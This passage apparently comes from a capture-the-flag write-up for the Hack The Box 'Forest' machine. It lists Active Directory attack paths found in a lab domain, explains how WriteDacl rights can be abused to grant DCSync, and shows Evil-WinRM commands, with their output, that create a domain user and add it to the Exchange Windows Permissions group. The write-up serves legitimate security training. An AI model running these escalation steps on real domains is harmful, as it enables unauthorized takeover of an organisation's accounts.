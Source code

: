 - find shortest paths to domain admins:

![image-20240311201746862](./Forest.assets/image-20240311201746862.png)

**Found Details**:

1. Account Operators (group of svc-alfresco) has limited access to create admin accounts, while having full control to the domain EXCH01.HTB.LOCAL
2. The Exchange Windows Permisions (group of EXCH01.HTB.LOCAL) has WriteDacl permission -> its users can grant DCSync rights

> **WriteDacl Info**
> The members of the group EXCHANGE TRUSTED SUBSYSTEM@HTB.LOCAL have permissions to modify the DACL (Discretionary Access Control List) on the group EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL. With write access to the target object's DACL, you can grant yourself any privilege you want on the object.

Create domain user and add him into "Exchange Windows Permissions" group:

```console
*Evil-WinRM* PS C:\qwe> net user qwe ImQwe123 /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\qwe> net group "Exchange Windows Permissions" /domain
Group name     Exchange Windows Permissions
Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Windows accounts and groups. This group should not be deleted.

Members

-------------------------------------------------------------------------------
The command completed successfully.

*Evil-WinRM* PS C:\qwe> net group "Exchange Windows Permissions" /domain /add qwe
The command completed successfully.

*Evil-WinRM* PS C:\qwe> net group "Exchange Windows Permissions" /domain
Group name     Exchange Windows Permissions
Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Windows accounts and groups. This group should not be deleted.

```